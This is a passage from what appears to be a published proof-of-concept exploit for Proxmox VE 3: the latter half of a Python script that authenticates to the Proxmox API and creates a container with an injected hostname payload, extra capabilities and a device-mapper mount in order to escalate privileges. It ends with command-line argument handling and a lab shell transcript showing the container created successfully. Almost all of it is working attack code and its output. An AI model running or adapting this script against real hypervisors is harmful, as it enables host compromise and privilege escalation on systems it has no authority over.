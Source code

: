                                            "hostname": payload,
                                           "storage": "local",
                                           "password": "xyz",
                                           "ostemplate": template,
                                           "memory": 512,
                                           "swap": 512,
                                           "disk": 2,
                                           "cpus": 1,
                                           "netif":"ifname=eth0,bridge=vmbr0"})
            if createvm.status_code == 200:
                response = createvm.json()
                if "success" in response and response["success"]:
                    print "[+] Countainer (Capabilities + DM-0 Mount) Created."
                else:
                    print "[!] Error creating container..."
                    print response
            else:
                print "[!] Error creating Container. Bad HTTP Status code : %d" % createvm.status_code
        else:
            print "[!] Authentication failed - Check the credentials..."

    if __name__ == "__main__":
        print "[~] Proxmox VE 3 Authenticated Privileges Escalation Exploit - Nicolas Chatelain\n"

        parser = argparse.ArgumentParser()
        parser.add_argument("--target", required=True, help="The target host (eg : 10.0.0.1:8006)")

        parser.add_argument("--username", required=True)
        parser.add_argument("--password", required=True)

        parser.add_argument("--vmid", required=False, default="999", type=int, help="A unique ID for the container, exploit will fail if the ID already exists.")

        parser.add_argument("--template", required=False, default="local:vztmpl/debian-7.0-standard_7.0-2_i386.tar.gz",
                            help="An existing template in the hypervisor (default : local:vztmpl/debian-7.0-standard_7.0-2_i386.tar.gz)")

        parser.add_argument("--hostname", required=True, help="The target hostname")

        parser.add_argument("--realm", required=False, default="pam", choices=["pve", "pam"])

        args = parser.parse_args()

        exploit(args.target, args.username, args.password, args.vmid, args.template, args.realm, args.hostname)

Shell output :

    nightlydev@nworkstation ~/Lab/Proxmox_Exploits $ python privescalation.py --username root --password xyz --vmid 123 --realm pam --target 10.25.0.110:8006 --hostname pve3
    [~] Proxmox VE 3 Authenticated Privileges Escalation Exploit - Nicolas Chatelain
    
    [~] Obtaining authorization key...
    [+] Authentication success.
    [+] Countainer (Capabilities + DM-0 Mount) Created.
